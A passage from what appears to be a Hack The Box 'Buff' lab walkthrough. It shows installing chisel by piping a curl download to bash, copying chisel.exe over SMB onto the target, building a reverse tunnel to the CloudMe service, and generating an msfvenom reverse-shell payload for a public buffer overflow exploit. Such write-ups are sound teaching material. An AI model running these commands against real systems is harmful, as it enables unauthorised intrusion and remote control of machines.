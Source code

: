 To install on your attacking machine, you will just need to run the following command.

``` bash
curl https://i.jpillora.com/chisel! | bash
```

You will also need to download the Windows x64 version of Chisel from [here](https://github.com/jpillora/chisel/releases). Once downloaded, extract and copy the `chisel.exe` file to your working directory. We will use SMB to copy the chisel.exe binary to the target machine. Start the SMB service from your working directory just as we did above when copying the `nc.exe`. Now copy chisel.exe into the uploads directory by running the following command in our reverse shell session.

``` bash
copy \\<YOUR TUNNEL IP>\share\chisel.exe C:\xampp\htdocs\gym\upload\chisel.exe
```

Now from our attacking machine, we will start a chisel reverse tunnel on port 8008 by using the following command.

``` bash
chisel server -p 8008 --reverse
```

![](/assets/images/htb-buff/09_buff_chisel_reverse.png)

Now that we have the server running on our machine, we will send a client connection request from the target machine to our attacking machine on port 8008, offering up port 8888. This can be done with the following command.

``` bash
C:\xampp\htdocs\gym\upload\chisel.exe client 10.10.14.16:8008 R:8888:127.0.0.1:8888
```

![](/assets/images/htb-buff/10_buff_chisel_client.png)

Great! We show now have an established tunnel to the CloudMe process from our attacking machine. This can be confirmed by the message letting us know that it is `Connected`. Now we need to make some modifications to the buffer overflow script and then we should be ready to exploit it.

## Exploiting the Buffer Overflow Vulnerability
The [buffer overflow scripts](https://www.exploit-db.com/exploits/48389) that we found will need to have an updated payload. Reading the comment before the payload, we can see that it was generated with `msfvenom` and will simply ask the machine to open the calculator on the machine. As our goal is a shell and not a calculator, we generate our own payload also using msfvenom. We can do this by running the following command.

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR TUNNEL IP> LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```
